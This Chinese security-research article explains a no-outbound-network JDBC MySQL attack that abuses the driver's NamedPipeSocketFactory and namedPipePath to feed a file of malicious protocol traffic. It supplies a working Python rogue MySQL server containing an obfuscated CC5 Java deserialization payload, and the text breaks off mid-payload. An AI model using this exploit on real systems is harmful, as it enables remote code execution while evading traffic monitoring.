# 从JDBC MySQL不出网攻击到spring临时文件利用-先知社区

> **来源**: https://xz.aliyun.com/news/17830  
> **文章ID**: 17830

---

# 0x00 传统攻击流程

我们之前传统的攻击流程由以下几个步骤来完成

1. 攻击者找到可以控制目标JDBC连接fakeServer的地方
2. 目标向fakeServer发起连接请求
3. fakeServer向目标下发恶意数据包
4. 目标解析恶意数据包并完成指定攻击行为（文件读取、反序列化），完成攻击



这种攻击方式需要依赖网络外连恶意服务器，容易被流量设备监测，且在网络隔离环境下无法进行攻击。因此我对JDBC-MySQL驱动的源码进行分析，找到一个可以在网络隔离的情况下进行反序列化RCE的方法。

# 0x01 MySQL驱动的socketFactory

注： 本文提到的MySQL驱动指的都是JDBC-MySQL驱动

首先，在MySQL驱动中我发现了socketFactory这个选项，它默认值为`StandardSocketFactory.class.getName()`因此它接收的应该是一个类的名字



查找使用到这个选项的地方，在创建一个MysqlIO的时候使用到了这个选项传入的内容



MysqlIO在mysql驱动中是一个比较核心的类，在里面有很多的处理逻辑，构造方法如下：

```
  public MysqlIO(String host, int port, Properties props,
        String socketFactoryClassName, MySQLConnection conn,
        int socketTimeout, int useBufferRowSizeThreshold)
```

socketFactoryClassName是我们的重点关注参数，在createSocketFactory中实现了这样的代码，socketFactoryClassName指定的类名会被调用newInstance来实例化，且这个类必须实现了SocketFactory接口

```
    private SocketFactory createSocketFactory() throws SQLException {
        try {
            if (this.socketFactoryClassName == null) {
                throw SQLError.createSQLException(Messages.getString("MysqlIO.75"), //$NON-NLS-1$
                    SQLError.SQL_STATE_UNABLE_TO_CONNECT_TO_DATASOURCE, getExceptionInterceptor());
            }

            return (SocketFactory) (Class.forName(this.socketFactoryClassName)
                                         .newInstance());
        } catch (Exception ex) {
            SQLException sqlEx = SQLError.createSQLException(Messages.getString("MysqlIO.76") //$NON-NLS-1$
                 +this.socketFactoryClassName +
                Messages.getString("MysqlIO.77"),
                SQLError.SQL_STATE_UNABLE_TO_CONNECT_TO_DATASOURCE, getExceptionInterceptor());
          
            sqlEx.initCause(ex);
          
            throw sqlEx;
        }
    }
```

在初始化MysqlIO的时候createSocketFactory会被调用，用于提供一个客户端和服务器连接的方式



由于指定的类是必须实现了SocketFactory接口的，因此可以很方便的找到驱动中内置的满足条件的类，其实只有两个

1. `StandardSocketFactory`
2. `NamedPipeSocketFactory`

从一开始的socketFactory选项定义处可以发现，`StandardSocketFactory`这个类是默认值，其实它就是实现了TCP的连接方式，这种方式需要网络连接Mysql Server，不符合我们本次的不出网目标，因此忽略。而从`NamedPipeSocketFactory`类中的connect方法中看到，它使用了NamedPipeSocket并传入一个path作为参数，并且将实例化后的对象用作一个与服务器交互的通道：

```
public Socket connect(String host, int portNumber /* ignored */,
            Properties props) throws SocketException, IOException {
        String namedPipePath = props.getProperty(NAMED_PIPE_PROP_NAME);

        if (namedPipePath == null) {
            namedPipePath = "\\.\pipe\MySQL"; //$NON-NLS-1$
        } else if (namedPipePath.length() == 0) {
            throw new SocketException(Messages
                    .getString("NamedPipeSocketFactory.2") //$NON-NLS-1$
                    + NAMED_PIPE_PROP_NAME
                    + Messages.getString("NamedPipeSocketFactory.3")); //$NON-NLS-1$
        }

        this.namedPipeSocket = new NamedPipeSocket(namedPipePath);

        return this.namedPipeSocket;
    }
```

而在NamedPipeSocket的构造方法中发现，它用`RandomAccessFile`打开了一个文件，并且最终使用这个文件流作为与服务器连接的IO通道



再去确认这个filePath是否可以从JDBC URL中控制，在connect方法中获取了`NAMED_PIPE_PROP_NAME`这个参数：

`String namedPipePath = props.getProperty(NAMED_PIPE_PROP_NAME);`

而`NAMED_PIPE_PROP_NAME`的定义如下：

`public static final String NAMED_PIPE_PROP_NAME = "namedPipePath"; //$NON-NLS-1$`

因此我们只需要在JDBC的URL中传入`namedPipePath`参数，就可以控制这个文件路径。

# 0x02 初步实现不出网利用

我们发现了可以通过文件IO的方式与MySQL Server进行交互，因此有了个想法：将FakeServer下发的恶意流量放到文件中，再通过NamedPipeSocket的方式去发起连接，是不是就可以无网完成利用了？很明显这样的方式是可行的，下面完成这个想法的实现：

## 构造恶意流量数据包

首先我们需要一个恶意流量包，以攻击CC5反序列化为例子，可以使用开源工具完成这一步，也可以使用下面这个我修改过的FakeServer:

```
import socket
import threading

SHOW_VARIABLES = False

def get_data(pdata = b''):
    global SHOW_VARIABLES
    if b'SHOW VARIABLE' in pdata.upper():
        print("回显变量")
        SHOW_VARIABLES = True
        return "01000001025200000203646566001173657373696f6e5f7661726961626c65731173657373696f6e5f7661726961626c65730d5661726961626c655f6e616d650d5661726961626c655f6e616d650c2100c0000000fd01100000004200000303646566001173657373696f6e5f7661726961626c65731173657373696f6e5f7661726961626c65730556616c75650556616c75650c2100000c0000fd000000000005000004fe000022001a000005146368617261637465725f7365745f636c69656e7404757466381e000006186368617261637465725f7365745f636f6e6e656374696f6e04757466381b000007156368617261637465725f7365745f726573756c747304757466381a000008146368617261637465725f7365745f73657276657204757466381c0000090c696e69745f636f6e6e6563740e534554204e414d455320757466381800000a13696e7465726163746976655f74696d656f7574033132301900000b166c6f7765725f636173655f7461626c655f6e616d657301311c00000c126d61785f616c6c6f7765645f7061636b65740831363737373231361800000d116e65745f6275666665725f6c656e6774680531363338341500000e116e65745f77726974655f74696d656f75740236301900000f1071756572795f63616368655f73697a650731303438353736150000101071756572795f63616368655f74797065034f4646930000110873716c5f6d6f6465894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e120000121073797374656d5f74696d655f7a6f6e6500110000130974696d655f7a6f6e650653595354454d26000014157472616e73616374696f6e5f69736f6c6174696f6e0f52455045415441424c452d524541441d0000150c74785f69736f6c6174696f6e0f52455045415441424c452d52454144110000160c776169745f74696d656f75740331323005000017fe01002200"
    elif b'SHOW WARNINGS' in pdata.upper():
        print("回显告警")
        return "01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000005000005fe000002006a000006075761726e696e6704313336365c496e636f727265637420737472696e672076616c75653a20275c7844365c7844305c7842395c7846415c7842315c7845412e2e2e2720666f7220636f6c756d6e20275641524941424c455f56414c55452720617420726f772034383505000007fe00000200"
    elif b'SELECT @@session.auto_increment_increment'.upper() in pdata.upper():
        print("回显auto_increment_increment")
        return "0100000101380000020364656600000022404073657373696f6e2e6175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a00000000005000003fe0000020002000004013105000005fe00000200"
    elif b'SELECT @@session.autocommit'.upper() in pdata.upper():
        print("回显autocommit")
        return "01000001012a0000020364656600000014404073657373696f6e2e6175746f636f6d6d6974000c3f000100000008800000000005000003fe0000020002000004013105000005fe00000200"
    elif b'SHOW COLLATION' in pdata.upper():
        print("回显COLLATION")
        return "0100000106530000020364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e5309436f6c6c6174696f6e0e434f4c4c4154494f4e5f4e414d450c210060000000fd0100000000550000030364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e530743686172736574124348415241435445525f5345545f4e414d450c210060000000fd0100000000400000040364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e530249640249440c3f000b0000000801000000004d0000050364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e530744656661756c740a49535f44454641554c540c210009000000fd01000000004f0000060364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e5308436f6d70696c65640b49535f434f4d50494c45440c210009000000fd01000000004a0000070364656612696e666f726d6174696f6e5f736368656d610a434f4c4c4154494f4e530a434f4c4c4154494f4e5307536f72746c656e07534f52544c454e0c3f000300000008010000000005000008fe00002200210000090f626967355f6368696e6573655f636904626967350131035965730359657301311800000a08626967355f62696e0462696735023834000359657301312100000b0f646563385f737765646973685f636904646563380133035965730359657301311800000c08646563385f62696e0464656338023639000359657301312300000d1063703835305f67656e6572616c5f63690563703835300134035965730359657301311a00000e0963703835305f62696e056370383530023830000359657301311f00000f0e6870385f656e676c6973685f63690368703801360359657303596573013116000010076870385f62696e036870380237320003596573013123000011106b6f6938725f67656e6572616c5f6369056b6f6938720137035965730359657301311a000012096b6f6938725f62696e056b6f6938720237340003596573013122000013116c6174696e315f6765726d616e315f6369066c6174696e3101350003596573013125000014116c6174696e315f737765646973685f6369066c6174696e3101380359657303596573013122000015106c6174696e315f64616e6973685f6369066c6174696e310231350003596573013123000016116c6174696e315f6765726d616e325f6369066c6174696e31023331000359657301321c0000170a6c6174696e315f62696e066c6174696e310234370003596573013123000018116c6174696e315f67656e6572616c5f6369066c6174696e310234380003596573013123000019116c6174696e315f67656e6572616c5f6373066c6174696e31023439000359657301312300001a116c6174696e315f7370616e6973685f6369066c6174696e31023934000359657301312000001b0f6c6174696e325f637a6563685f6373066c6174696e320132000359657301342500001c116c6174696e325f67656e6572616c5f6369066c6174696e320139035965730359657301312500001d136c6174696e325f68756e67617269616e5f6369066c6174696e32023231000359657301312400001e126c6174696e325f63726f617469616e5f6369066c6174696e32023237000359657301311c00001f0a6c6174696e325f62696e066c6174696e3202373700035965730131220000200f737765375f737765646973685f63690473776537023130035965730359657301311800002108737765375f62696e047377653702383200035965730131240000221061736369695f67656e6572616c5f6369056173636969023131035965730359657301311a0000230961736369695f62696e056173636969023635000359657301312300002410756a69735f6a6170616e6573655f636904756a6973023132035965730359657301311800002508756a69735f62696e04756a6973023931000359657301312300002610736a69735f6a6170616e6573655f636904736a6973023133035965730359657301311800002708736a69735f62696e04736a69730238380003596573013126000028116865627265775f67656e6572616c5f636906686562726577023136035965730359657301311c0000290a6865627265775f62696e06686562726577023731000359657301312300002a0e7469733632305f746861695f636906746973363230023138035965730359657301341c00002b0a7469733632305f62696e06746973363230023839000359657301312300002c0f6575636b725f6b6f7265616e5f6369056575636b72023139035965730359657301311a00002d096575636b725f62696e056575636b72023835000359657301312400002e106b6f6938755f67656e6572616c5f6369056b6f693875023232035965730359657301311a00002f096b6f6938755f62696e056b6f6938750237350003596573013126000030116762323331325f6368696e6573655f636906676232333132023234035965730359657301311c0000310a6762323331325f62696e06676232333132023836000359657301312400003210677265656b5f67656e6572616c5f636905677265656b023235035965730359657301311a00003309677265656b5f62696e05677265656b0237300003596573013126000034116370313235305f67656e6572616c5f63690663703132353002323603596573035965730131210000350f6370313235305f637a6563685f6373066370313235300233340003596573013224000036126370313235305f63726f617469616e5f636906637031323530023434000359657301311c0000370a6370313235305f62696e066370313235300236360003596573013122000038106370313235305f706f6c6973685f63690663703132353002393900035965730131200000390e67626b5f6368696e6573655f63690367626b023238035965730359657301311600003a0767626b5f62696e0367626b023837000359657301312600003b116c6174696e355f7475726b6973685f6369066c6174696e35023330035965730359657301311c00003c0a6c6174696e355f62696e066c6174696e35023738000359657301312a00003d1361726d73636969385f67656e6572616c5f63690861726d7363696938023332035965730359657301312000003e0c61726d73636969385f62696e0861726d7363696938023634000359657301312200003f0f757466385f67656e6572616c5f63690475746638023333035965730359657301311800004008757466385f62696e047574663802383300035965730131200000410f757466385f756e69636f64655f6369047574663803313932000359657301382200004211757466385f6963656c616e6469635f636904757466380331393300035965730138200000430f757466385f6c61747669616e5f6369047574663803313934000359657301382100004410757466385f726f6d616e69616e5f6369047574663803313935000359657301382200004511757466385f736c6f76656e69616e5f6369047574663803313936000359657301381f0000460e757466385f706f6c6973685f6369047574663803313937000359657301382100004710757466385f6573746f6e69616e5f636904757466380331393800035965730138200000480f757466385f7370616e6973685f636904757466380331393900035965730138200000490f757466385f737765646973685f6369047574663803323030000359657301382000004a0f757466385f7475726b6973685f6369047574663803323031000359657301381e00004b0d757466385f637a6563685f6369047574663803323032000359657301381f00004c0e757466385f64616e6973685f6369047574663803323033000359657301382300004d12757466385f6c69746875616e69616e5f6369047574663803323034000359657301381f00004e0e757466385f736c6f76616b5f6369047574663803323035000359657301382100004f10757466385f7370616e697368325f6369047574663803323036000359657301381e0000500d757466385f726f6d616e5f636904757466380332303700035965730138200000510f757466385f7065727369616e5f6369047574663803323038000359657301382200005211757466385f6573706572616e746f5f6369047574663803323039000359657301382200005311757466385f68756e67617269616e5f636904757466380332313000035965730138200000540f757466385f73696e68616c615f636904757466380332313100035965730138200000550f757466385f6765726d616e325f6369047574663803323132000359657301382100005610757466385f63726f617469616e5f6369047574663803323133000359657301382400005713757466385f756e69636f64655f3532305f6369047574663803323134000359657301382300005812757466385f766965746e616d6573655f6369047574663803323135000359657301382900005918757466385f67656e6572616c5f6d7973716c3530305f6369047574663803323233000359657301312200005a0f756373325f67656e6572616c5f63690475637332023335035965730359657301311800005b08756373325f62696e0475637332023930000359657301312000005c0f756373325f756e69636f64655f6369047563733203313238000359657301382200005d11756373325f6963656c616e6469635f6369047563733203313239000359657301382000005e0f756373325f6c61747669616e5f6369047563733203313330000359657301382100005f10756373325f726f6d616e69616e5f6369047563733203313331000359657301382200006011756373325f736c6f76656e69616e5f6369047563733203313332000359657301381f0000610e756373325f706f6c6973685f6369047563733203313333000359657301382100006210756373325f6573746f6e69616e5f636904756373320331333400035965730138200000630f756373325f7370616e6973685f636904756373320331333500035965730138200000640f756373325f737765646973685f636904756373320331333600035965730138200000650f756373325f7475726b6973685f6369047563733203313337000359657301381e0000660d756373325f637a6563685f6369047563733203313338000359657301381f0000670e756373325f64616e6973685f6369047563733203313339000359657301382300006812756373325f6c69746875616e69616e5f6369047563733203313430000359657301381f0000690e756373325f736c6f76616b5f6369047563733203313431000359657301382100006a10756373325f7370616e697368325f6369047563733203313432000359657301381e00006b0d756373325f726f6d616e5f6369047563733203313433000359657301382000006c0f756373325f7065727369616e5f6369047563733203313434000359657301382200006d11756373325f6573706572616e746f5f6369047563733203313435000359657301382200006e11756373325f68756e67617269616e5f6369047563733203313436000359657301382000006f0f756373325f73696e68616c615f636904756373320331343700035965730138200000700f756373325f6765726d616e325f6369047563733203313438000359657301382100007110756373325f63726f617469616e5f6369047563733203313439000359657301382400007213756373325f756e69636f64655f3532305f6369047563733203313530000359657301382300007312756373325f766965746e616d6573655f6369047563733203313531000359657301382900007418756373325f67656e6572616c5f6d7973716c3530305f636904756373320331353900035965730131240000751063703836365f67656e6572616c5f6369056370383636023336035965730359657301311a0000760963703836365f62696e0563703836360236380003596573013128000077126b6579626373325f67656e6572616c5f6369076b657962637332023337035965730359657301311e0000780b6b6579626373325f62696e076b6579626373320237330003596573013124000079106d616363655f67656e6572616c5f6369056d61636365023338035965730359657301311a00007a096d616363655f62696e056d61636365023433000359657301312a00007b136d6163726f6d616e5f67656e6572616c5f6369086d6163726f6d616e023339035965730359657301312000007c0c6d6163726f6d616e5f62696e086d6163726f6d616e023533000359657301312400007d1063703835325f67656e6572616c5f6369056370383532023430035965730359657301311a00007e0963703835325f62696e056370383532023831000359657301312400007f126c6174696e375f6573746f6e69616e5f6373066c6174696e370232300003596573013126000080116c6174696e375f67656e6572616c5f6369066c6174696e370234310359657303596573013123000081116c6174696e375f67656e6572616c5f6373066c6174696e37023432000359657301311c0000820a6c6174696e375f62696e066c6174696e37023739000359657301312800008312757466386d62345f67656e6572616c5f636907757466386d6234023435035965730359657301311e0000840b757466386d62345f62696e07757466386d6234023436000359657301312600008512757466386d62345f756e69636f64655f636907757466386d623403323234000359657301382800008614757466386d62345f6963656c616e6469635f636907757466386d623403323235000359657301382600008712757466386d62345f6c61747669616e5f636907757466386d623403323236000359657301382700008813757466386d62345f726f6d616e69616e5f636907757466386d623403323237000359657301382800008914757466386d62345f736c6f76656e69616e5f636907757466386d623403323238000359657301382500008a11757466386d62345f706f6c6973685f636907757466386d623403323239000359657301382700008b13757466386d62345f6573746f6e69616e5f636907757466386d623403323330000359657301382600008c12757466386d62345f7370616e6973685f636907757466386d623403323331000359657301382600008d12757466386d62345f737765646973685f636907757466386d623403323332000359657301382600008e12757466386d62345f7475726b6973685f636907757466386d623403323333000359657301382400008f10757466386d62345f637a6563685f636907757466386d623403323334000359657301382500009011757466386d62345f64616e6973685f636907757466386d623403323335000359657301382900009115757466386d62345f6c69746875616e69616e5f636907757466386d623403323336000359657301382500009211757466386d62345f736c6f76616b5f636907757466386d623403323337000359657301382700009313757466386d62345f7370616e697368325f636907757466386d623403323338000359657301382400009410757466386d62345f726f6d616e5f636907757466386d623403323339000359657301382600009512757466386d62345f7065727369616e5f636907757466386d623403323430000359657301382800009614757466386d62345f6573706572616e746f5f636907757466386d623403323431000359657301382800009714757466386d62345f68756e67617269616e5f636907757466386d623403323432000359657301382600009812757466386d62345f73696e68616c615f636907757466386d623403323433000359657301382600009912757466386d62345f6765726d616e325f636907757466386d623403323434000359657301382700009a13757466386d62345f63726f617469616e5f636907757466386d623403323435000359657301382a00009b16757466386d62345f756e69636f64655f3532305f636907757466386d623403323436000359657301382900009c15757466386d62345f766965746e616d6573655f636907757466386d623403323437000359657301382500009d136370313235315f62756c67617269616e5f636906637031323531023134000359657301312500009e136370313235315f756b7261696e69616e5f636906637031323531023233000359657301311c00009f0a6370313235315f62696e0663703132353102353000035965730131260000a0116370313235315f67656e6572616c5f63690663703132353102353103596573035965730131230000a1116370313235315f67656e6572616c5f63730663703132353102353200035965730131240000a21075746631365f67656e6572616c5f6369057574663136023534035965730359657301311a0000a30975746631365f62696e05757466313602353500035965730131220000a41075746631365f756e69636f64655f63690575746631360331303100035965730138240000a51275746631365f6963656c616e6469635f63690575746631360331303200035965730138220000a61075746631365f6c61747669616e5f63690575746631360331303300035965730138230000a71175746631365f726f6d616e69616e5f63690575746631360331303400035965730138240000a81275746631365f736c6f76656e69616e5f63690575746631360331303500035965730138210000a90f75746631365f706f6c6973685f63690575746631360331303600035965730138230000aa1175746631365f6573746f6e69616e5f63690575746631360331303700035965730138220000ab1075746631365f7370616e6973685f63690575746631360331303800035965730138220000ac1075746631365f737765646973685f63690575746631360331303900035965730138220000ad1075746631365f7475726b6973685f63690575746631360331313000035965730138200000ae0e75746631365f637a6563685f63690575746631360331313100035965730138210000af0f75746631365f64616e6973685f63690575746631360331313200035965730138250000b01375746631365f6c69746875616e69616e5f63690575746631360331313300035965730138210000b10f75746631365f736c6f76616b5f63690575746631360331313400035965730138230000b21175746631365f7370616e697368325f63690575746631360331313500035965730138200000b30e75746631365f726f6d616e5f63690575746631360331313600035965730138220000b41075746631365f7065727369616e5f63690575746631360331313700035965730138240000b51275746631365f6573706572616e746f5f63690575746631360331313800035965730138240000b61275746631365f68756e67617269616e5f63690575746631360331313900035965730138220000b71075746631365f73696e68616c615f63690575746631360331323000035965730138220000b81075746631365f6765726d616e325f63690575746631360331323100035965730138230000b91175746631365f63726f617469616e5f63690575746631360331323200035965730138260000ba1475746631365f756e69636f64655f3532305f63690575746631360331323300035965730138250000bb1375746631365f766965746e616d6573655f63690575746631360331323400035965730138280000bc1275746631366c655f67656e6572616c5f63690775746631366c65023536035965730359657301311e0000bd0b75746631366c655f62696e0775746631366c6502363200035965730131260000be116370313235365f67656e6572616c5f636906637031323536023537035965730359657301311c0000bf0a6370313235365f62696e0663703132353602363700035965730131260000c0146370313235375f6c69746875616e69616e5f636906637031323537023239000359657301311c0000c10a6370313235375f62696e0663703132353702353800035965730131260000c2116370313235375f67656e6572616c5f63690663703132353702353903596573035965730131240000c31075746633325f67656e6572616c5f6369057574663332023630035965730359657301311a0000c40975746633325f62696e05757466333202363100035965730131220000c51075746633325f756e69636f64655f63690575746633320331363000035965730138240000c61275746633325f6963656c616e6469635f63690575746633320331363100035965730138220000c71075746633325f6c61747669616e5f63690575746633320331363200035965730138230000c81175746633325f726f6d616e69616e5f63690575746633320331363300035965730138240000c91275746633325f736c6f76656e69616e5f63690575746633320331363400035965730138210000ca0f75746633325f706f6c6973685f63690575746633320331363500035965730138230000cb1175746633325f6573746f6e69616e5f63690575746633320331363600035965730138220000cc1075746633325f7370616e6973685f63690575746633320331363700035965730138220000cd1075746633325f737765646973685f63690575746633320331363800035965730138220000ce1075746633325f7475726b6973685f63690575746633320331363900035965730138200000cf0e75746633325f637a6563685f63690575746633320331373000035965730138210000d00f75746633325f64616e6973685f63690575746633320331373100035965730138250000d11375746633325f6c69746875616e69616e5f63690575746633320331373200035965730138210000d20f75746633325f736c6f76616b5f63690575746633320331373300035965730138230000d31175746633325f7370616e697368325f63690575746633320331373400035965730138200000d40e75746633325f726f6d616e5f63690575746633320331373500035965730138220000d51075746633325f7065727369616e5f63690575746633320331373600035965730138240000d61275746633325f6573706572616e746f5f63690575746633320331373700035965730138240000d71275746633325f68756e67617269616e5f63690575746633320331373800035965730138220000d81075746633325f73696e68616c615f63690575746633320331373900035965730138220000d91075746633325f6765726d616e325f63690575746633320331383000035965730138230000da1175746633325f63726f617469616e5f63690575746633320331383100035965730138260000db1475746633325f756e69636f64655f3532305f63690575746633320331383200035965730138250000dc1375746633325f766965746e616d6573655f636905757466333203313833000359657301381b0000dd0662696e6172790662696e61727902363303596573035965730131280000de1267656f737464385f67656e6572616c5f63690767656f73746438023932035965730359657301311e0000df0b67656f737464385f62696e0767656f7374643802393300035965730131250000e01163703933325f6a6170616e6573655f6369056370393332023935035965730359657301311a0000e10963703933325f62696e05637039333202393600035965730131290000e2136575636a706d735f6a6170616e6573655f6369076575636a706d73023937035965730359657301311e0000e30b6575636a706d735f62696e076575636a706d7302393800035965730131290000e412676231383033305f6368696e6573655f6369076762313830333003323438035965730359657301321f0000e50b676231383033305f62696e076762313830333003323439000359657301312a0000e616676231383033305f756e69636f64655f3532305f636907676231383033300332353000035965730138050000e7fe00002200"
    elif b'SET ' in pdata.upper():
        print("回显SET包")
        return "0700000200000002000000"
    else:
        print("未知请求")
        print(pdata)
        return "01000001012a0000020364656600000014404073657373696f6e2e6175746f636f6d6d6974000c3f000100000008800000000005000003fe0000020002000004013105000005fe00000200"

def process(conn):
    global SHOW_VARIABLES
    #hello 包
    print("发送hello包")
    conn.sendall(bytes.fromhex("4a0000000a352e372e32360018000000374a10207a5f771e00fff7c00200ff81150000000000000000000025551379067c13160d46727b006d7973716c5f6e61746976655f70617373776f726400"))

    # 接收登录包
    conn.recv(10240)
    print("接收到登录包")

    # 登录成功包
    conn.sendall(bytes.fromhex("0700000200000002000000"))
    print("给客户端响应登录成功")

    while True:
        data = conn.recv(10240)
        if  b'SHOW SESSION STATUS' in data.upper():
            conn.sendall(bytes.fromhex("0100000103"))
            conn.sendall(bytes.fromhex("1a000002036465660001610161016101610c3f001c000000fcffff000000"))
            conn.sendall(bytes.fromhex("1a000003036465660001610161016201620c3f001c000000fcffff0000001a000004036465660001610161016301630c3f001c000000fcffff000000"))
            conn.sendall(bytes.fromhex("05000005fe00000200"))
            payload_content = "aced00057372005cc1aac1a1c1b6c1a1c1b8c0aec1adc1a1c1aec1a1c1a7c1a5c1adc1a5c1aec1b4c0aec182c1a1c1a4c181c1b4c1b4c1b2c1a9c1a2c1b5c1b4c1a5c196c1a1c1acc1b5c1a5c185c1b8c1b0c185c1b8c1a3c1a5c1b0c1b4c1a9c1afc1aed4e7daab632d46400200014c0006c1b6c1a1c1ac740024c18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc18fc1a2c1aac1a5c1a3c1b4c0bb78720026c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec185c1b8c1a3c1a5c1b0c1b4c1a9c1afc1aed0fd1f3e1a3b1cc402000078720026c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec194c1a8c1b2c1afc1b7c1a1c1a2c1acc1a5d5c635273977b8cb0300044c000ac1a3c1a1c1b5c1b3c1a574002ac18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc194c1a8c1b2c1afc1b7c1a1c1a2c1acc1a5c0bb4c001ac1a4c1a5c1b4c1a1c1a9c1acc18dc1a5c1b3c1b3c1a1c1a7c1a5740024c18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc193c1b4c1b2c1a9c1aec1a7c0bb5b0014c1b3c1b4c1a1c1a3c1abc194c1b2c1a1c1a3c1a574003cc19bc18cc1aac1a1c1b6c1a1c0afc1acc1a1c1aec1a7c0afc193c1b4c1a1c1a3c1abc194c1b2c1a1c1a3c1a5c185c1acc1a5c1adc1a5c1aec1b4c0bb4c0028c1b3c1b5c1b0c1b0c1b2c1a5c1b3c1b3c1a5c1a4c185c1b8c1a3c1a5c1b0c1b4c1a9c1afc1aec1b3740020c18cc1aac1a1c1b6c1a1c0afc1b5c1b4c1a9c1acc0afc18cc1a9c1b3c1b4c0bb787071007e0008707572003cc19bc18cc1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec193c1b4c1a1c1a3c1abc194c1b2c1a1c1a3c1a5c185c1acc1a5c1adc1a5c1aec1b4c0bb02462a3c3cfd223902000078700000000373720036c1aac1a1c1b6c1a1c0aec1acc1a1c1aec1a7c0aec193c1b4c1a1c1a3c1abc194c1b2c1a1c1a3c1a5c185c1acc1a5c1adc1a5c1aec1b46109c59a2636dd85020004490014c1acc1a9c1aec1a5c18ec1b5c1adc1a2c1a5c1b24c001cc1a4c1a5c1a3c1acc1a1c1b2c1a9c1aec1a7c183c1acc1a1c1b3c1b371007e00054c0010c1a6c1a9c1acc1a5c18ec1a1c1adc1a571007e00054c0014c1adc1a5c1b4c1a8c1afc1a4c18ec1a1c1adc1a571007e0005787000000045740064c1adc1a5c0aec1a7c1b6c0b7c0aec1b7c1afc1afc1a4c1b0c1a5c1a3c1abc1a5c1b2c0aec1b9c1b3c1afc0aec1b0c1a1c1b9c1acc1afc1a1c1a4c1b3c0aec183c1afc1adc1adc1afc1aec1b3c183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0b5740030c183c1afc1adc1adc1afc1aec1b3c183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0b5c0aec1aac1a1c1b6c1a1740012c1a7c1a5c1b4c18fc1a2c1aac1a5c1a3c1b47371007e000b0000003171007e000d71007e000e71007e000f7371007e000b0000007d74000ac193c1b4c1a1c1b2c1b4740014c193c1b4c1a1c1b2c1b4c0aec1aac1a1c1b6c1a1740008c1adc1a1c1a9c1ae7372004cc1aac1a1c1b6c1a1c0aec1b5c1b4c1a9c1acc0aec183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0a4c195c1aec1adc1afc1a4c1a9c1a6c1a9c1a1c1a2c1acc1a5c18cc1a9c1b3c1b4fc0f2531b5ec8e100200014c0008c1acc1a9c1b3c1b471007e000778720058c1aac1a1c1b6c1a1c0aec1b5c1b4c1a9c1acc0aec183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec1b3c0a4c195c1aec1adc1afc1a4c1a9c1a6c1a9c1a1c1a2c1acc1a5c183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1ae19420080cb5ef71e0200014c0002c1a374002cc18cc1aac1a1c1b6c1a1c0afc1b5c1b4c1a9c1acc0afc183c1afc1acc1acc1a5c1a3c1b4c1a9c1afc1aec0bb787073720026c1aac1a1c1b6c1a1c0aec1b5c1b4c1a9c1acc0aec181c1b2c1b2c1a1c1b9c18cc1a9c1b3c1b47881d21d99c7619d030001490008c1b3c1a9c1bac1a